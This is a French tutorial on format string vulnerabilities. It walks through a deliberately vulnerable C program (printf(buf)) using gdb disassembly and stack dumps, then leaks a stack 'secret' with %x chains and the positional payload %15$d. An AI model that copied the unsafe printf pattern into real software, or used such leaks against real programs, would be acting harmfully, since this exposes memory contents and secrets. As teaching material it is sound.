 # Format String 

Pour illustrer, prenons un exemple simple et essayons d'afficher la valeur de `secret`

```c
long secret = rand();
char buf[64];

printf("Votre nom: ");
fgets(buf, sizeof(buf), stdin);
printf("Bonjour, ");
printf(buf);
```

Regardons si un leak est possible

```bash
└─$ ./printf-leak
Votre nom: %x %x %x %x %x
Bonjour, 6a6e6f42 0 0 359a06bf 4
```

Ouvrons gdb-gef et mettons un break juste apres le printf de notre buffer, pour voir à quoi correspondent les leaks

```sh
└─$ gdb printf-leak
# ...
gef➤  disas main
Dump of assembler code for function main:
   0x0000000000401146 <+0>:	push   rbp
   0x0000000000401147 <+1>:	mov    rbp,rsp
   0x000000000040114a <+4>:	sub    rsp,0x50
   0x000000000040114e <+8>:	call   0x401050 <rand@plt>
   0x0000000000401153 <+13>:	cdqe
   0x0000000000401155 <+15>:	mov    QWORD PTR [rbp-0x8],rax
   0x0000000000401159 <+19>:	lea    rax,[rip+0xea4]        # 0x402004
   0x0000000000401160 <+26>:	mov    rdi,rax
   0x0000000000401163 <+29>:	mov    eax,0x0
   0x0000000000401168 <+34>:	call   0x401030 <printf@plt>
   0x000000000040116d <+39>:	mov    rdx,QWORD PTR [rip+0x2ebc]        # 0x404030 <stdin@GLIBC_2.2.5>
   0x0000000000401174 <+46>:	lea    rax,[rbp-0x50]
   0x0000000000401178 <+50>:	mov    esi,0x40
   0x000000000040117d <+55>:	mov    rdi,rax
   0x0000000000401180 <+58>:	call   0x401040 <fgets@plt>
   0x0000000000401185 <+63>:	lea    rax,[rip+0xe84]        # 0x402010
   0x000000000040118c <+70>:	mov    rdi,rax
   0x000000000040118f <+73>:	mov    eax,0x0
   0x0000000000401194 <+78>:	call   0x401030 <printf@plt>
   0x0000000000401199 <+83>:	lea    rax,[rbp-0x50]
   0x000000000040119d <+87>:	mov    rdi,rax
   0x00000000004011a0 <+90>:	mov    eax,0x0
   0x00000000004011a5 <+95>:	call   0x401030 <printf@plt>
   0x00000000004011aa <+100>:	mov    eax,0x0
   0x00000000004011af <+105>:	leave
   0x00000000004011b0 <+106>:	ret
End of assembler dump.
```

Ici on peut voir que le printf de notre buffer se trouve à `main+95` donc mettons notre break juste apres et lançons-le 

```sh
gef➤  b *main+100
Breakpoint 1 at 0x4011aa
gef➤  run
Starting program: /[...]/printf-leak 
#...
Votre nom: %x %x %x %x %x
Bonjour, 6a6e6f42 0 0 4056bf 4
```

Si on affiche la stack, regardons à quoi ces valeurs correspodent

```sh
gef➤  hexdump byte $sp -s 240
0x00007fffffffdb70     25 78 20 25 78 20 25 78 20 25 78 20 25 78 0a 00    %x %x %x %x %x..
0x00007fffffffdb80     00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................
0x00007fffffffdb90     00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................
0x00007fffffffdba0     00 00 00 00 00 00 00 00 30 50 fe f7 ff 7f 00 00    ........0P......
0x00007fffffffdbb0     00 00 00 00 00 00 00 00 67 45 8b 6b 00 00 00 00    ........gE.k....
0x00007fffffffdbc0     01 00 00 00 00 00 00 00 68 ad dd f7 ff 7f 00 00    ........h.......
0x00007fffffffdbd0     c0 dc ff ff ff 7f 00 00 46 11 40 00 00 00 00 00    ........F.@.....
0x00007fffffffdbe0     40 00 40 00 01 00 00 00 d8 dc ff ff ff 7f 00 00    @.@.............
0x00007fffffffdbf0     d8 dc ff ff ff 7f 00 00 3b 7a 00 15 7f 0d 01 d2    ........;z......
0x00007fffffffdc00     00 00 00 00 00 00 00 00 e8 dc ff ff ff 7f 00 00    ................
0x00007fffffffdc10     00 d0 ff f7 ff 7f 00 00 f0 3d 40 00 00 00 00 00    .........=@.....
0x00007fffffffdc20     3b 7a a2 a2 80 f2 fe 2d 3b 7a 42 4f c4 e2 fe 2d    ;z.....-;zBO...-
0x00007fffffffdc30     00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................
0x00007fffffffdc40     00 00 00 00 00 00 00 00 d8 dc ff ff ff 7f 00 00    ................
0x00007fffffffdc50     01 00 00 00 00 00 00 00 00 fc 85 5b 44 d7 6d 46    ...........[D.mF
```

Rien n'apparait, regardons plus haut dans la stack

```sh
gef➤  hexdump byte $sp-224 -s 240
0x00007fffffffda90     30 00 00 00 30 00 00 00 70 db ff ff ff 7f 00 00    0...0...p.......
0x00007fffffffdaa0     b0 da ff ff ff 7f 00 00 00 fc 85 5b 44 d7 6d 46    ...........[D.mF
0x00007fffffffdab0     00 00 00 00 00 00 00 00 42 6f 6e 6a 6f 75 72 2c    ........Bonjour,
0x00007fffffffdac0     00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................
0x00007fffffffdad0     bf 56 40 00 00 00 00 00 04 00 00 00 00 00 00 00    .V@.............
0x00007fffffffdae0     00 00 00 00 01 00 00 00 00 00 00 00 00 00 00 00    ................
0x00007fffffffdaf0     00 00 00 00 00 00 00 00 d8 dc ff ff ff 7f 00 00    ................
0x00007fffffffdb00     e0 88 f9 f7 ff 7f 00 00 00 00 00 00 00 00 00 00    ................
0x00007fffffffdb10     70 db ff ff ff 7f 00 00 00 d0 ff f7 ff 7f 00 00    p...............
0x00007fffffffdb20     f0 3d 40 00 00 00 00 00 0a ea e2 f7 ff 7f 00 00    .=@.............
0x00007fffffffdb30     40 00 00 00 00 00 00 00 34 56 df f7 ff 7f 00 00    @.......4V......
0x00007fffffffdb40     ff ff ff ff 67 45 8b 6b d8 dc ff ff ff 7f 00 00    ....gE.k........
0x00007fffffffdb50     c0 db ff ff ff 7f 00 00 00 00 00 00 00 00 00 00    ................
0x00007fffffffdb60     e8 dc ff ff ff 7f 00 00 aa 11 40 00 00 00 00 00    ..........@.....
0x00007fffffffdb70     25 78 20 25 78 20 25 78 20 25 78 20 25 78 0a 00    %x %x %x %x %x..
```

On peut alors voir notre `4056bf`, suivi du `04`.
Un peu plus haut le `6a6e6f42`.

Comme expliqué, le `%x` affiche les valeurs sur 4 octets donc par exemple il est impossible de récupérer `2c72756f` sans faire de `%lx`, le `l` permettant d'afficher les valeurs en 8 octets bits.

Donc pour revenir à notre exemple:
`0x..dab8` -> `6a6e6f42`
`0x..dac0` -> `0`
`0x..dac8` -> `0`
`0x..dad0` -> `4056fb`
`0x..dad8` -> `4`

Comme repéré precedement, notre `secret` se trouve en `$rbp-0x8` or `$rbp   : 0x00007fffffffdbc0` donc notre secret est ici stocké en `0x..dbb8` ce qui est bien plus bas dans la stack.
En tentant avec plus de `%x` nous pouvons voir que la 15eme valeur correspond à celle présente en `0x..dbb8` visible dans le hexdump:

```sh
Votre nom: %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x
Bonjour, 6a6e6f42 0 0 4056dd 4 25207825 20782520 78252078 25207825 20782520 78252078 0 f7fe5030 0 6b8b4567

gef➤  hexdump byte $sp -s 112
0x00007fffffffdb70     25 78 20 25 78 20 25 78 20 25 78 20 25 78 20 25    %x %x %x %x %x %
0x00007fffffffdb80     78 20 25 78 20 25 78 20 25 78 20 25 78 20 25 78    x %x %x %x %x %x
0x00007fffffffdb90     20 25 78 20 25 78 20 25 78 20 25 78 0a 00 00 00     %x %x %x %x....
0x00007fffffffdba0     00 00 00 00 00 00 00 00 30 50 fe f7 ff 7f 00 00    ........0P......
0x00007fffffffdbb0     00 00 00 00 00 00 00 00 67 45 8b 6b 00 00 00 00    ........gE.k....
0x00007fffffffdbc0     02 00 00 00 00 00 00 00 68 ad dd f7 ff 7f 00 00    ........h.......
0x00007fffffffdbd0     c0 dc ff ff ff 7f 00 00 46 11 40 00 00 00 00 00    ........F.@.....
```

Il nous reste plus qu'a récuperer cette valeur sous forme d'entier grâce à `%d`

```sh
└─$ ./printf-leak
Votre nom: %x %x %x %x %x %x %x %x %x %x %x %x %x %x %d 
Bonjour, 6a6e6f42 0 0 aa6e6de 4 25207825 20782520 78252078 25207825 20782520 64252078 0 67fa4030 0 1804289383
```

Ou plus simplement dans le cas où l'on connait l'index (15 ici) de la valeur, `%15$d` est plus direct, et indispensable dans le cas d'un buffer petit pour notre input.

```sh
└─$ ./printf-leak
Votre nom: %15$d
Bonjour, 1804289383
```

Rappel: `%<index>$<format>`